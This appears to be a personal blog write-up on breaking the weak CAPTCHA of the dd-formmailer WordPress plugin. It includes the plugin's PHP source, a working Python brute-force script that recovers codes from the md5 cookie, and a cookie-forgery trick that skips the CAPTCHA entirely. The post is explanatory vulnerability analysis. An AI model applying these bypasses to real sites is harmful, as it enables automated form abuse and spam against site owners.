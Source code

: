 +++
date = "2017-02-18T10:55:59-05:00"
draft = false
title = "Defeating dd-formmailer's Weak CAPTCHA"
description = "How I broke a Wordpress plugin's weak CAPTCHA"
hasmath = true
+++

Yesterday, I visited a website that uses [dd-formmailer][1], a Wordpress
plugin that provides a form for sending an email, complete with a
CAPTCHA intended to prevent automated abuse. Here's a screenshot:

{{< figure src="/img/blog/defeating-dd-formmailer/1.png" title="A screenshot of the dd-formmailer form" >}}

I was bored and curious, so I looked at the CAPTCHA image and noticed it
was always served from the same path:
`/wp-content/plugins/dd-formmailer/dd-formmailer.php?v=1`. How, I
wondered, does the script handling form submissions know if the user
entered the right CAPTCHA? A cookie?

    $ curl -si http://[snip].com/wp-content/plugins/dd-formmailer/dd-formmailer.php?v=1 | head
    HTTP/1.1 200 OK
    ...
    Set-Cookie: ddfmcode=bacb87c6f4ad4b08090e838d074bc18f; expires=Sat, 18-Feb-2017 17:47:30 GMT; path=/; domain=.[snip].com
    ...

A cookie! With what, the md5 of the correct answer?

    $ echo -n 3649B | md5sum
    bacb87c6f4ad4b08090e838d074bc18f  -

Yes!

As you can probably tell already, this is not the best approach.

# Pass 1

Looking at [the source][2],

    srand((double)microtime()*1000000); 
    $ddfmcode = substr(strtoupper(md5(rand(0, 999999999))), 2, 5); 
    $ddfmcode = str_replace("O", "A", $ddfmcode); // for clarity
    $ddfmcode = str_replace("0", "B", $ddfmcode);
    setcookie("ddfmcode", md5($ddfmcode), time()+3600, '/', '.' . $this_domain); 

you can see that CAPTCHA codes generated are 5-character hex strings
without 0s, leaving only $15^5 = 759,375$ possibilities. (Contrary to the
third line, hex strings don't contain the letter O 😄). We can brute
force all of these in less than two seconds with a simple Python script:

    #!/usr/bin/env python3
    
    from hashlib import md5
    
    for i in range(16**5):
        # Skip numbers with a 0 in their 5-char hex form
        if i >> 16 == 0 or \
           i >> 12 & 0xF == 0 or \
           i >> 8 & 0xF == 0 or \
           i >> 4 & 0xF == 0 or \
           i & 0xF == 0:
            continue
    
        captcha = '{:05X}'.format(i)
        hashed = md5(captcha.encode()).hexdigest()
        print('{}\t{}'.format(hashed, captcha))

and

    $ time ./bruteforce.py >hashes

    real    0m1.870s
    user    0m1.820s
    sys     0m0.052s

Then, when the server gives us a hash in the cookie, we can easily look
it up:

    $ time grep bacb87c6f4ad4b08090e838d074bc18f hashes
    bacb87c6f4ad4b08090e838d074bc18f        3649B
    
    real    0m0.016s
    user    0m0.008s
    sys     0m0.004s

But it gets better.

# Pass 2

While writing the last section, I realized: what stops clients from
sending a cookie with their own hash? The answer is nothing.

For example, I can send a `Cookie:
ddfmcode=b252d1fe1c0c16d001027c2fce9b6529` header (the md5 of "BANANA")
and then "BANANA" in the `fm_verify` form field and successfully send
the email. You don't need to request the CAPTCHA image at all!

Here's the relevant section of code:

    $t = ddfm_stripslashes($form_input['fm_verify']);
    ...
    } else if ($_COOKIE["ddfmcode"] != md5(strtoupper($t))) { 
    
    	$errors[] = DDFM_INVALIDVER;
    
    } 

# Conclusion

Avoid Wordpress plugins last updated in 2009.

[1]: http://www.dagondesign.com/articles/secure-form-mailer-plugin-for-wordpress/
[2]: http://www.dagondesign.com/articles/secure-php-form-mailer-script/#download
